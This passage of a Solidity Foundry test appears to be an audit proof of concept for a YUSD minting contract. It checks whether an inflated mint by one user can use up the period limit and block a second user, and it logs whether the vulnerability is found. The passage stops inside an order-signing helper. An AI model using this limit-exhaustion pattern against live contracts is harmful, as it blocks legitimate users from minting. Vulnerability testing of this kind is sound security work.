 ```solidity
        usdc.approve(address(minting), COLLATERAL_AMOUNT);

        // Try to mint with user2
        // If vulnerable, this will revert with LimitReached
        // If not vulnerable, this will succeed
        bool mintFailed = false;
        try minting.mint(
            OrderLib.Order({
                orderType: OrderLib.OrderType.MINT,
                userWallet: user2,
                collateralAsset: address(usdc),
                collateralAmount: COLLATERAL_AMOUNT,
                yusdAmount: YUSD_AMOUNT,
                slippageAdjustedAmount: YUSD_AMOUNT * 99 / 100,
                expiry: block.timestamp + 1 hours,
                nonce: 1,
                additionalData: ""
            }),
            signature2
        ) {
            // Mint succeeded
            mintFailed = false;
        } catch {
            // Mint failed
            mintFailed = true;
        }
        vm.stopPrank();

        if (mintFailed) {
            console.log(
                "VULNERABILITY FOUND: User2 cannot mint even though User1 only received a fraction of the limit"
            );
            console.log("User1 inflated amount:", INFLATED_YUSD_AMOUNT / 1e18, "YUSD");
            console.log("User1 actual received:", actualMinted / 1e18, "YUSD");
            console.log("User2 requested amount:", YUSD_AMOUNT / 1e18, "YUSD");
            console.log("Period limit:", MAX_PERIOD_AMOUNT / 1e18, "YUSD");
            console.log("Period limit artificially consumed!");
        } else {
            console.log("No vulnerability detected: User2 can still mint");
            console.log("User1 inflated amount:", INFLATED_YUSD_AMOUNT / 1e18, "YUSD");
            console.log("User1 actual received:", actualMinted / 1e18, "YUSD");

            // Check user2's balance change
            uint256 user2YUSDBalance = yusd.balanceOf(user2);
            console.log("User2 received:", user2YUSDBalance / 1e18, "YUSD");
            console.log("Total issued:", (actualMinted + user2YUSDBalance) / 1e18, "YUSD");
        }
    }

    // Helper function to sign a mint order
    function signMintOrder(
        OrderLib.OrderType orderType,
        address userWallet,
        address collateralAsset,
        uint256 collateralAmount,
        uint256 yusdAmount,
        uint256 slippageAdjustedAmount,
        uint256 expiry,
        uint256 nonce
    ) internal view returns (bytes memory signature) {
        bytes memory additionalData = "";
        bytes32 domainSeparator = minting.getDomainSeparator();
```